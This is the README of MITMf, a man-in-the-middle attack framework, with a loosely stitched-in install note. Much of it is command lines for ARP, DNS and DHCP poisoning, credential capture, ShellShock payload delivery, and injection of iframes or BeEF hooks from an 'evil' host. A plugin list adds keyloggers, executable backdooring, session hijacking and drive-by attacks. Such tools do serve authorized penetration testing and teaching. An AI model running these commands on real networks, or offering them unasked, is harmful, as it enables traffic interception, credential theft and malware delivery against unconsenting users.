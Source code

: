 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)
![Latest Version](https://img.shields.io/badge/mitmf-0.9.8%20--%20The%20Dark%20Side-red.svg)
![Supported OS](https://img.shields.io/badge/Supported%20OS-Linux-yellow.svg)
[![Code Climate](https://codeclimate.com/github/byt3bl33d3r/MITMf/badges/gpa.svg)](https://codeclimate.com/github/byt3bl33d3r/MITMf)
[![Build Status](https://travis-ci.org/byt3bl33d3r/MITMf.svg)](https://travis-ci.org/byt3bl33d3r/MITMf)
[![Coverage Status](https://coveralls.io/repos/byt3bl33d3r/MITMf/badge.svg?branch=master&service=github)](https://coveralls.io/github/byt3bl33d3r/MITMf?branch=master)

# MITMf

Framework for Man-In-The-Middle attacks

**This project is no longer being updated. MITMf was written to address the need, at the time, of a modern tool for performing Man-In-The-Middle attacks. Since then many other tools have been created to fill this space, you should probably be using [Bettercap](https://github.com/bettercap/bettercap) as it is far more feature complete and better maintained.**

Quick tutorials, examples and developer updates at: https://byt3bl33d3r.github.io

This tool is based on [sergio-proxy](https://github.com/supernothing/sergio-proxy) and is an attempt to revive and update the project.


**Before submitting issues, please read the relevant [section](https://github.com/byt3bl33d3r/MITMf/wiki/Reporting-a-bug) in the wiki .**

Installation
============

# For Kali Linux
```bash
apt install mitmf -y
```
- Manual
[![Installation](https://github.com/nu11secur1ty/m1tmfN)](https://coveralls.io/github/byt3bl33d3r/MITMf?branch=master)


Description
============
MITMf aims to provide a one-stop-shop for Man-In-The-Middle and network attacks while updating and improving
existing attacks and techniques.

Originally built to address the significant shortcomings of other tools (e.g Ettercap, Mallory), it's been almost completely 
re-written from scratch to provide a modular and easily extendible framework that anyone can use to implement their own MITM attack.

Features
========

- The framework contains a built-in SMB, HTTP and DNS server that can be controlled and used by the various plugins, it also contains a modified version of the SSLStrip proxy that allows for HTTP modification and a partial HSTS bypass.

- As of version 0.9.8, MITMf supports active packet filtering and manipulation (basically what etterfilters did, only better),
allowing users to modify any type of traffic or protocol.

- The configuration file can be edited on-the-fly while MITMf is running, the changes will be passed down through the framework: this allows you to tweak settings of plugins and servers while performing an attack.

- MITMf will capture FTP, IRC, POP, IMAP, Telnet, SMTP, SNMP (community strings), NTLMv1/v2 (all supported protocols like HTTP, SMB, LDAP etc.) and Kerberos credentials by using [Net-Creds](https://github.com/DanMcInerney/net-creds), which is run on startup.

- [Responder](https://github.com/SpiderLabs/Responder) integration allows for LLMNR, NBT-NS and MDNS poisoning and WPAD rogue server support.

Active packet filtering/modification
====================================

You can now modify any packet/protocol that gets intercepted by MITMf using Scapy! (no more etterfilters! yay!)

For example, here's a stupid little filter that just changes the destination IP address of ICMP packets:

```python
if packet.haslayer(ICMP):
	log.info('Got an ICMP packet!')
	packet.dst = '192.168.1.0'
```

- Use the ```packet``` variable to access the packet in a Scapy compatible format
- Use the ```data``` variable to access the raw packet data

Now to use the filter all we need to do is: ```python mitmf.py -F ~/filter.py```

You will probably want to combine that with the **Spoof** plugin to actually intercept packets from someone else ;)

**Note**: you can modify filters on-the-fly without restarting MITMf! 

Examples
========
***`nu11secur1ty`***
```bas
mitmf --arp --spoof --gateway 0.0.0.0 --target 0.0.0.0 -i wlan0
```
----------------------------------------------------------------------

The most basic usage, starts the HTTP proxy SMB,DNS,HTTP servers and Net-Creds on interface enp3s0:

```python mitmf.py -i enp3s0```

ARP poison the whole subnet with the gateway at 192.168.1.1 using the **Spoof** plugin:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1```

Same as above + a WPAD rogue proxy server using the **Responder** plugin:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --responder --wpad```

ARP poison 192.168.1.16-45 and 192.168.0.1/24 with the gateway at 192.168.1.1:

```python mitmf.py -i enp3s0 --spoof --arp --target 192.168.2.16-45,192.168.0.1/24 --gateway 192.168.1.1```

Enable DNS spoofing while ARP poisoning (Domains to spoof are pulled from the config file):

```python mitmf.py -i enp3s0 --spoof --dns --arp --target 192.168.1.0/24 --gateway 192.168.1.1```

Enable LLMNR/NBTNS/MDNS spoofing:

```python mitmf.py -i enp3s0 --responder --wredir --nbtns```

Enable DHCP spoofing (the ip pool and subnet are pulled from the config file):

```python mitmf.py -i enp3s0 --spoof --dhcp```

Same as above with a ShellShock payload that will be executed if any client is vulnerable:

```python mitmf.py -i enp3s0 --spoof --dhcp --shellshock 'echo 0wn3d'```

Inject an HTML IFrame using the **Inject** plugin:

```python mitmf.py -i enp3s0 --inject --html-url http://some-evil-website.com```

Inject a JS script:

```python mitmf.py -i enp3s0 --inject --js-url http://beef:3000/hook.js```

Start a captive portal that redirects everything to http://SERVER/PATH:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive --portalurl http://SERVER/PATH```

Start captive portal at http://your-ip/portal.html using default page /portal.html (thx responder) and /CaptiveClient.exe (not included) from the config/captive folder:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive```

Same as above but with hostname captive.portal instead of IP (requires captive.portal to resolve to your IP, e.g. via DNS spoof):

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --dns --captive --use-dns```

Serve a captive portal with an additional SimpleHTTPServer instance serving the LOCALDIR at http://IP:8080 (change port in mitmf.config):

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive --portaldir LOCALDIR```

Same as above but with hostname:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --dns --captive --portaldir LOCALDIR --use-dns```

And much much more! 

Of course you can mix and match almost any plugin together (e.g. ARP spoof + inject + Responder etc..)

For a complete list of available options, just run ```python mitmf.py --help```

# Currently available plugins

- **HTA Drive-By**     : Injects a fake update notification and prompts clients to download an HTA application
- **SMBTrap**          : Exploits the 'SMB Trap' vulnerability on connected clients
- **ScreenShotter**    : Uses HTML5 Canvas to render an accurate screenshot of a clients browser
- **Responder**        : LLMNR, NBT-NS, WPAD and MDNS poisoner
- **SSLstrip+**        : Partially bypass HSTS
- **Spoof**            : Redirect traffic using ARP, ICMP, DHCP or DNS spoofing
- **BeEFAutorun**      : Autoruns BeEF modules based on a client's OS or browser type
- **AppCachePoison**   : Performs HTML5 App-Cache poisoning attacks 
- **Ferret-NG**        : Transparently hijacks client sessions
- **BrowserProfiler**  : Attempts to enumerate all browser plugins of connected clients
- **FilePwn**          : Backdoor executables sent over HTTP using the Backdoor Factory and BDFProxy
- **Inject**           : Inject arbitrary content into HTML content
- **BrowserSniper**    : Performs drive-by attacks on clients with out-of-date browser plugins
- **JSkeylogger**      : Injects a Javascript keylogger into a client's webpages
- **Replace**          : Replace arbitrary content in HTML content
- **SMBAuth**          : Evoke SMB challenge-response authentication attempts
- **Upsidedownternet** : Flips images 180 degrees
- **Captive**          : Creates a captive portal, redirecting HTTP requests using 302

# How to fund my tea & sushi reserve

BTC: 1ER8rRE6NTZ7RHN88zc6JY87LvtyuRUJGU

ETH: 0x91d9aDCf8B91f55BCBF0841616A01BeE551E90ee

LTC: LLMa2bsvXbgBGnnBwiXYazsj7Uz6zRe4fr

